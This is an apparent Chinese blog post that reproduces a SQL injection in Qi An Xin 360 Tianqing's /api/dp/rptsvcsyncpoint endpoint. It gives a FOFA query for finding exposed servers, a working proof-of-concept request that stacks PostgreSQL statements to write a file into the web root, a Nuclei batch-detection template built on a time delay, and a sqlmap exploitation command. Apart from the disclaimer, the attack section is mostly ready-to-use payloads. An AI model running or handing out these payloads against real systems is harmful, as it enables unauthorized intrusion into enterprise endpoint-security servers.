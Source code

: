 # 原创
：  漏洞复现--奇安信360天擎rptsvcsyncpointSQL注入

# 漏洞复现--奇安信360天擎rptsvcsyncpointSQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

天擎基于奇安信全新的“川陀”终端安全平台构建，集成高性能病毒查杀、漏洞防护、主动防御引擎，深度融合威胁情报、大数据分析和安全可视化等创新技术，通过系统合规与加固、威胁防御与检测、运维管控与审计、终端数据防泄漏、统一管理与运营等功能，帮助政企客户构建持续有效的终端安全能力。该产品存在SQL注入漏洞，攻击者可通过此漏洞获取服务器权限。

### 二：漏洞影响版本

奇安信360天擎

### 三：网络空间测绘查询

fofa:<br/> `banner="QiAnXin web server" || banner="360 web server" || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dfab7a0c67bac7a9db97eea67f123985.jpeg"/>

### 四：漏洞复现

POC:

```
GET /api/dp/rptsvcsyncpoint?ccid=1%27;create%20table%20O(T%20TEXT);insert%20into%20O(T)%20values(%271~%27);copy%20O(T)%20to%20%27C:\Program%20Files%20(x86)\360\skylar6\www\1.txt%27;drop%20table%20O;-- 

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7fcc56365820f7cb2c15034c056adb1f.jpeg"/><br/> 访问1.txt<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/08e4d603e31137634117a038e75e8948.jpeg"/>

### 五：批量检测

```
id: qianxin-360-tianqing-rptsvcsyncpoint-sqli

info:
  name: qianxin-360-tianqing-rptsvcsyncpoint-sqli
  author: xingyun
  severity: high
  tags: qianxin,sqli
  description: 360天擎官方版能够为用户精确检测已知病毒木马、未知恶意代码，有效防御APT攻击，360天擎存在SQL注入漏洞。
  metadata: 
    fofa-query: banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
    verified: true
    max-request: 1

http:
  - raw:
      - |
        @timeout: 50s
        GET /api/dp/rptsvcsyncpoint?ccid=1%27;SELECT%20PG_SLEEP(3)-- HTTP/1.1
        Host: {{Hostname}}

    matchers:     
      - type: dsl
        name: mysql
        dsl:
          - "status_code_1 == 200 &amp;&amp; duration&gt;=3 &amp;&amp; contains(body,'file_count') &amp;&amp; contains(header,'application/json')"

```

### 漏洞利用

注入点在ccid，且数据库为PostgreSQL<br/> sqlmap：<br/> `python .\sqlmap.py -u https://x.x.x.x:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b7836e09245c7bd6f37ab055819c3c9f.jpeg"/>
